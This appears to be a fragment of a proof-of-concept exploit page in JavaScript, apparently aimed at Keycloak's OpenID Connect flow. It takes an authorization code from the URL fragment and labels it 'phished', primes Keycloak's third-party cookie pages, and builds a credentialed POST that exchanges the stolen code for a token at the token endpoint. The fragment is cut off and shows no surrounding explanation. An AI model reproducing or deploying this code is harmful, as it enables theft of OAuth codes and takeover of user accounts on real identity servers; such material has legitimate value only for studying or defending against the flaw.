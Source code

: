 ```JavaScript
    var hash = location.hash.substring(1);

    var result = hash.split('&').reduce(function (res, item) {
    var parts = item.split('=');
    res[parts[0]] = parts[1];
    return res;
    }, {});

    var code = result.code
    document.getElementById("code").innerHTML = "The code got phished: " + code;

    function submitStep1()
       {
        var step1 = new XMLHttpRequest();
        step1.open("GET", "http:\/\/" + keycloak_url + "\/auth\/realms\/example\/protocol\/openid-connect\/3p-cookies\/step1.html", true);
        step1.setRequestHeader("Accept", "*\/*");
        step1.setRequestHeader("Accept-Language", "en-GB,en-US;q=0.9,en;q=0.8");
        var body = "";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i);
        step1.send(new Blob([aBody]));
       }


    function submitStep2()
       {
        var step2 = new XMLHttpRequest();
        step2.open("GET", "http:\/\/" + keycloak_url + "\/auth\/realms\/example\/protocol\/openid-connect\/3p-cookies\/step2.html", true);
        step2.setRequestHeader("Accept", "*\/*");
        step2.setRequestHeader("Accept-Language", "en-GB,en-US;q=0.9,en;q=0.8");
        var body = "";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i);
        step2.send(new Blob([aBody]));
       }

    submitStep1();
    submitStep2();


    function submitRequest()
       {
         var xhr = new XMLHttpRequest();
         xhr.open("POST", "https:\/\/" + keycloak_url + "\/auth\/realms\/example\/protocol\/openid-connect\/token", true);
         xhr.setRequestHeader("Content-type", "application\/x-www-form-urlencoded");
         xhr.setRequestHeader("Accept", "*\/*");
         xhr.setRequestHeader("Accept-Language", "en-GB,en-US;q=0.9,en;q=0.8");
         xhr.withCredentials = true;
         var body = "code=" + code + "&grant_type=authorization_code&client_id=" + client_id + "&redirect_uri=" + redirect_uri;
         var aBody = new Uint8Array(body.length);
         for (var i = 0; i < aBody.length; i++)
           aBody[i] = body.charCodeAt(i);
         xhr.send(new Blob([aBody]));
       }
    </script>

    <form action="#">
```